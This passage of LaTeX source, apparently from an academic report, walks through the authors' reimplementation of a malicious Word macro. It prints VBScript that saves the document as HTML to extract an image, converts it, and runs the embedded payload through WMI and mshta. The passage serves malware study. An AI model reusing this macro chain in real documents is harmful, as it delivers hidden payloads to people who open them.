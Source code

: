 Malware execution starts by decoding a set of Base 64 encoded values. Following this a path is defined where the
document is saved as \acrshort{HTML}. This step is important as it extracts all the images embedded within the document
into a subdirectory, allowing us to manipulate them programmatically. After this, it also protects itself in order to
avoid the user manipulating the document. In the original attack this is where the lure form was opened, however we
decided that implementing it would be superfluous.

\begin{lstlisting}[language=VBScript, caption={The malicious document saving itself to extract embedded images.}]
    DocName = ActiveDocument.Name
    If InStr(DocName, ".") > 0 Then
        DocName = Left(DocName, InStr(DocName, ".") - 1)
    End If

    TempPath = Environ("Temp") & "\" & DocName

    ActiveDocument.SaveAs TempPath, wdFormatHTML, , , , , True
\end{lstlisting}

After this step, the meat of the attack happens. First, the extracted \acrshort{PNG} image is converted to
\acrshort{BMP}. Interestingly, however, the converted file is given a \verb+.zip+ extension. This image is then
executed by using the decoded versions of the encoded strings as arguments. Aside from the image conversion function not
extracting the embedded payload as we required, we also discovered another bug within this part of the malware. This
bug, interestingly, affected string concatenation of the argument passed to \verb+objWMIService.Create()+. When using
the variable \verb+Value+ in the concatenation, the result of the concatenation would be just the variable \verb+Value+,
with the other concatenated elements not being present in the resulting string. Replacing the variable with its
contents, \verb+mshta+, solved this issue.
\clearpage %

\begin{lstlisting}[language=VBScript, caption={The meat of the macro -- extracting the payload from the converted image and executing it.},
   label={lst:macro-extraction}]
    TempPath = TempPath & "_files"
    CreatedImageFilePath = TempPath & "\" & imageFileName
    CreatedImageBMPFilePath = Environ("Temp") & "\" & Left(imageFileName, InStrRev(imageFileName, ".")) & Ext1

    Call WIA_ConvertImage(CreatedImageFilePath, CreatedImageBMPFilePath)

    Set objWMIService = GetObject(Calc)
    ' Replace Value with "mshta" for string concatenation to succeed
    objWMIService.Create Value & " " & CreatedImageBMPFilePath

    Kill TempPath & "\*.*"
    RmDir TempPath
\end{lstlisting}

